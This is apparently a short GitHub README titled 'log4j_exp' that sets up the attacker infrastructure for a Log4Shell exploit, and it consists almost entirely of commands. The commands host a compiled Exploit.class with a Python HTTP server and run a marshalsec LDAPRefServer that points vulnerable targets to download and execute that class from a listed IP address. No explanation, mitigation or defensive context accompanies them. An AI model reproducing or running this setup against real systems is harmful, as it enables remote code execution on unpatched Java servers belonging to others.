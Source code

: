 # log4j_exp



![d](https://user-images.githubusercontent.com/35913263/145540302-ddfab82f-39c4-42c6-b633-040b16b6ff8b.png)



ls
Exploit.class

 python -m http.server 8000
 
 java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.28.190:8000/#Exploit 9999
 
 
